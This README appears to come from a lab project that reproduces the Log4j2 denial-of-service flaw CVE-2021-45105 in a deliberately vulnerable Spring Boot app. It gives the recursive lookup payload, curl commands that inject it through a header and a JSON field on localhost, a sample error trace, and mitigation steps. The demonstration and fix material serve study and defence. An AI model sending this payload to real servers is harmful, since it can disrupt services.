

# Log4j2 DOS (CVE-2021-45105) 

## Poc

```
${${::-${::-$${::-$}}}}
```

## Versions Affected: all versions from 2.0-beta9 to 2.16.0

This application is based on Spring Boot web application vulnerable to CVE-2021-45105

It uses Log4j 2.16.0



## Running the application

Run it:

```
Import the project in Java IDE as a maven project

Run CVEMainApplication.java as a spring boot app.

```

## Exploitation steps

* Then, trigger the exploit using:

```bash
For GET ->
curl 127.0.0.1:8080 -H 'X-Api-Version: ${${::-${::-$${::-$}}}}'


For Post request ->
curl --location --request POST 'http://127.0.0.1:8080/addrecord' \
--header 'Content-Type: application/json' \
--data '{
	"clientRef": "${${::-${::-$${::-$}}}}"
}'
```


* Notice the output showing Infinite loop, however in testing did not find out that this DOS to be resource consuming as this infinite loop identified by program and error out:

```

 ${ctx:apiVersion} ${ctx:clientRef}2021-12-18 14:29:56,759 http-nio-8080-exec-1 ERROR An exception occurred processing Appender Console java.lang.IllegalStateException: Infinite loop in property interpolation of ::-${::-$${::-j}}: :
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.checkCyclicSubstitution(StrSubstitutor.java:1081)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1029)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1042)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	
```

## Mitigation : 

Java 8 (or later) users should upgrade to release 2.17.0.

Alternatively, this can be mitigated in configuration:

In PatternLayout in the logging configuration, replace Context Lookups like ${ctx:loginId} or $${ctx:loginId} with Thread Context Map patterns (%X, %mdc, or %MDC).
Otherwise, in the configuration, remove references to Context Lookups like ${ctx:loginId} or $${ctx:loginId} where they originate from sources external to the application such as HTTP headers or user input.

## Reference

https://issues.apache.org/jira/browse/LOG4J2-3230